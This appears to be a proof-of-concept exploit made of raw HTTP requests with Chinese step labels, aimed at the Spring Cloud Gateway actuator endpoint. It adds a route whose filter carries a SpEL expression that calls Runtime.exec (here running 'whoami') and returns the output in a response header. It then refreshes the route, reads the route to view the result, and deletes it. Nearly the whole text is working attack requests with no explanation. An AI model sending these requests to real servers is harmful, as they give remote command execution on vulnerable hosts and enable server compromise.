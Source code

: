   ```
  一、添加路由
  POST /actuator/gateway/routes/qqq HTTP/1.1
  Host: localhost:8080
  Accept-Encoding: gzip, deflate
  Accept: */*
  Accept-Language: en
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
  Connection: close
  Content-Type: application/json
  Content-Length: 329
  
  {
    "id": "hacktest",
    "filters": [{
      "name": "AddResponseHeader",
      "args": {
        "name": "Result",
        "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}"
      }
    }],
    "uri": "http://example.com"
  }
  
  二、刷新路由
  POST /actuator/gateway/refresh HTTP/1.1
  Host: localhost:8080
  Accept-Encoding: gzip, deflate
  Accept: */*
  Accept-Language: en
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
  Connection: close
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 0
  
  三、查看
  GET /actuator/gateway/routes/qqq HTTP/1.1
  Host: localhost:8080
  Accept-Encoding: gzip, deflate
  Accept: */*
  Accept-Language: en
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
  Connection: close
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 0
  
  四、删除路由
  DELETE /actuator/gateway/routes/qqq HTTP/1.1
  Host: localhost:8080
  Accept-Encoding: gzip, deflate
  Accept: */*
  Accept-Language: en
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
  Connection: close
  
  五、重复刷新路由步骤
  ```
